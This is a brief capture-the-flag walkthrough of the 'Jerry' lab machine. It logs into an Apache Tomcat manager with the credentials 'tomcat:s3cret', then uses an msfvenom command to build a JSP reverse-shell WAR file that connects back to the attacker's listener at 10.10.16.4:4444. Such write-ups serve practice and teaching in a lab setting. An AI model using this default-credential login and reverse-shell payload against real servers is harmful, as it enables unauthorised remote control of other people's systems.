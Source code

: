 # Jerry

10.10.10.95

port 8080 is running apache tomcat 7.0.88

Dirbuster found `/manager` and we were able to login with `tomcat:s3cret`

Hunterbot told me about war files.

We generate a war file

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.4 LPORT=4444 -f war -o shell.war
```

then upload it

when we visit `/shell` we get a connection on our listener

Then we found the flags were both in one file:

![[Pasted image 20220715212426.png]]


